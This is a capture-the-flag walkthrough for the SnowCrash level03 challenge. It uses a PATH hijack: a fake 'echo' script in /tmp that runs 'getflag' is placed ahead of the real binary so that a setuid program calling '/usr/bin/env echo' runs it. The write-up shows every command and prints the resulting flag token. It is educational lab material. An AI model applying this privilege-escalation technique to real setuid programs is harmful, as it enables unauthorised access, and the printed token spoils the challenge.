 On the level 3 we can do a basic command "ls -l".

	level03@SnowCrash:~$ ls -l
	total 12
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

We see that the level03 file is owned by flag03, it means that the user level03
can execute it as flag03.
Now we need to find out what does this program.

	level03@SnowCrash:~$ ./level03 
	Exploit me

It seems to just print "Exploit me".
We can see more details by using the command strings on the executable.

	level03@SnowCrash:~$ strings level03 | grep "Exploit me"
	/usr/bin/env echo Exploit me

We can see that the program use "/usr/bin/env echo" to print "Exploit me"
Here the use of env ensures that you're using the external 'echo' binary if one exists.

So we need to create an echo file that will do a 'getflag' command instead of using the classic echo command.
We are going to do it in the "/tmp" directory because we have no permission for other directories.

	level03@SnowCrash:~$ cd /tmp
	level03@SnowCrash:/tmp$ echo "getflag" > echo
	level03@SnowCrash:/tmp$ chmod 777 echo
	level03@SnowCrash:/tmp$ cd

Now we need to add the /tmp directory to the $PATH, where the program is going to look for echo.

	level03@SnowCrash:~$ echo $PATH
	/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

	level03@SnowCrash:~$ export PATH=/tmp:$PATH

	level03@SnowCrash:~$ echo $PATH
	/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

We have added the /tmp directory in front of the path, so it's going to search first in the tmp directory.
Fortunatly, thats the echo that we just created that is going to be found first.

Now we can execute the level03 program and we should see the flag appear.

	level03@SnowCrash:~$ ./level03 
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
